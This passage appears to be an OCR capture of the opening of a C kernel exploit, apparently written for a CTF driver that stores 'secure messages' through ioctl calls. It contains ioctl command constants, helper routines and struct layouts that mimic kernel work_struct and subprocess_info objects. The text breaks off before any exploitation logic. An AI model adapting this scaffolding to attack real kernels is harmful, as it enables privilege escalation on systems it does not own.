 ```c

#define CMD_ADD_MESSAGE 0x11111111
#define CMD_READ_MESSAGE 0x22222222
#define CMD_DELETE_MESSAGE 0x33333333

void err_exit(int code, char *msg) {
    puts("[-] EXPLOIT FAILED");
    err(code, msg);
}

void hexprint(char *buffer, unsigned int bytes) {
    uint64_t *buf = (uint64_t*)buffer;
    int dqwords = ((bytes + 0x10 - 1) & 0xfffffff0) / 0x10;
    for (int i = 0; i < (dqwords * 2); i += 2)
        if (buf[i] || buf[i+1])
            printf("0x%04x: 0x%016lx 0x%016lx\n", (i * 0x8), buf[i], buf[i+1]);
    puts("-----------------------------------------------");
    return;
}

typedef struct params {
    void *buf;
    uint32_t lifetime;
    uint32_t len;
    uint32_t idx;
} params_t;

typedef struct work_struct {
	uint64_t data;
	uint64_t next, prev;
	uint64_t func;
} work_struct_t;

typedef struct secure_message {
    work_struct_t work;
    uint32_t lifetime;
    uint32_t consumed;
    uint32_t content_size;
} secure_message_t;

typedef struct subprocess_info {
	work_struct_t work;
	uint64_t complete;
	uint64_t path;
	uint64_t argv;
	uint64_t envp;
	uint32_t wait;
	uint32_t retval;
	uint64_t init;
	uint64_t cleanup;
	uint64_t data;
	/* size: 96, cachelines: 2, members: 10 */
} subprocess_info_t;

int fd;

int add_secmsg(char *buf, uint32_t len, uint32_t lifetime) {
    params_t args = {
        .buf = buf,
        .len = len,
        .lifetime = lifetime
    };
    if (ioctl(fd, CMD_ADD_MESSAGE, &args) < 0)
```